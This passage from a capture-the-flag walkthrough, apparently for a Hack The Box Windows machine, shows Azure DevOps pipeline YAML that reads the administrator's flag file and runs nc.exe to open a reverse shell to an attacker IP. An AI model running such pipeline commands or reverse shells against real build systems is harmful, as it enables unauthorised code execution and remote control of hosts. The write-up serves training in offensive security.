

- So the `yml` file will look like this

```
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Setup'

steps:
- script: |
    whoami
    type c:\users\administrator\desktop\root.txt

  displayName: 'Rooted'
```

- The reason we had to change `pool` setting to `Setup` is because `Default` pool doesn't exist
  - If we check `Agent Pools` we only have `Setup` pool


- Now we can `Save and Run`
  - And we have to create a new branch again
    - Since we don't have permissions to push directly to `master` branch


- The build will start
  - After few minutes check the `Task` (In my case `Rooted`) and get the `flag`



- Note that we can also perform `rce` and get the reverse shell
  - Modify the pipeline `yml`
  - Save it and run
- 
```
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Setup'

steps:
- script: |
    c:\programdata\nc.exe 10.10.16.9 7777 -e cmd.exe

  displayName: 'Reverse Shell'
```


## Potato
- Check [0xdf's solution](https://0xdf.gitlab.io/2021/01/30/htb-worker.html#beyond-root---roguepotato)